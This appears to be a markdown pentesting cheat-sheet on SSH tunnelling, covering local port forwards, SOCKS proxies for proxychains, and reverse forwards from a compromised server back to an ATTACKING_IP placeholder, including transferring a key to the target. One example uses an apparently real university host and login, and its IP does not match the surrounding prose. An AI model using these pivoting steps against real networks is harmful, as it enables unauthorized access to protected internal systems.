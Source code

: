 # SSH Tunnelling / Port Forwarding

### Forward Connections

Creating a **forward** (or "_local_") **SSH tunnel** can be done from the attacking box when we have SSH access to the target.

#### `Port Forwarding :` -L switch, which creates a link to a Local port.

* For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

```bash
ssh -L 8000:132.227.89.21:80 21108020@ssh.ufr-info-p6.jussieu.fr -fN

-f backgrounds the shell
-N tells SSH that it doesn't need to execute any commands,only set up the fucking connection
```

You can now access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine with `localhost:8000`.

> Good Practice use a high port, out of the way, for the local connection.

#### `Creating a proxy :` -D switch

* For example: -D 1337. This will open up port 1337 on the attacking box as a **proxy** to send data through into the _protected network_.

This is useful when combined with a tool such as **proxychains**. An example of this command would be:

```bash
ssh -D 1337 user@172.16.0.5 -fN
```

***

### Reverse Connections

_Reverse connections_ are very possible with the **SSH client** (and indeed may be preferable if you have **a shell** on the **compromised server**, but not **SSH access**).

**They are, however, riskier** as you inherently must access **your attacking machine from the target** -- be it by using credentials, or preferably a key based system.

`Before we can make a reverse connection safely, there are a few steps to take:`

```bash
# 1. generate a new set of SSH keys and store them somewhere safe
ssh-keygen

# 2. Copy the contents of the public key, then edit the ~/.ssh/authorized_keys file on your own attacking machine.

# 3. New line, type the following line, then paste in the public key:
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty ssh-public-key

# 4. start the ssh service your the attacking machine
sudo systemctl start ssh

# 5. transfer the private key to the target server

# 6. With the key transferred, connect back with a reverse port forward (on the target server)
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

# or (In newer versions of the SSH client)
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash
ssh -p port -okexAlgorithms=+<algo> user@0.0.0.0

ssh -o StrictHostKeyChecking=no -p 0.0.0.0

ssh -i id_rsa -L localport:127.0.0.1:remoteport user@0.0.0.0

#to get public key from a private key
ssh-keygen -y -e -f keyfile
```

